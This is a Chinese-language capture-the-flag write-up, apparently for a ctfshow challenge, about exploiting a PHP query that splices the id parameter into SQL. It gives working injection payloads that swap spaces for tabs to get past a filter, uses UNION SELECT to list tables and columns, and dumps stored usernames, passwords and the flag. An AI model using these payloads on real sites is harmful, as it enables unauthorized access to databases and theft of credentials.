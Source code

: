 #### 链接

[https://blog.csdn.net/solitudi/article/details/110144623]: sql注入	"sql注入byY4tacker"
[https://blog.csdn.net/solitudi/article/details/109446561]: 
[https://www.cnblogs.com/tianyu0125/p/14006275.html]: 



查询语句

```mysql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```



返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```



一句话 

```mysql
1'or'1'='1'%23


	
flag{dd46a444-c467-442f-a084-bef9e27eda3f}
```



payload

尝试绕过过滤

##### 替换空格为%09,替换#为%23

```mysql
//判断注入
1'%09and%091=1%23

//判断字段
1'%09order%09by%093%23

//判段数据库
-1'%09Union%09Select%09user(),database(),version()%23
root@localhost			ctfshow_web			10.3.18-MariaDB

//判断table
1'%09Union%09Select%09user(),table_name,version()%09from%09information_schema.tables%09where%09table_schema=database()%23
root@localhost			ctfshow_user			10.3.18-MariaDB


//判断字段

1'%09Union%09Select%09user(),column_name,version()%09from%09information_schema.columns%09where%09table_name='ctfshow_user'%23
root@localhost	id					10.3.18-MariaDB
root@localhost	username			10.3.18-MariaDB
root@localhost	password			10.3.18-MariaDB



//判断内容

1'%09Union%09Select%09user(),username,password%09from%09ctfshow_user%23

root@localhost	admin				admin
root@localhost	user1				111
root@localhost	user2				222
root@localhost	userAUTO			passwordAUTO
root@localhost	flag				flag{6f81c417-9074-462e-9605-70b97919282d}
```





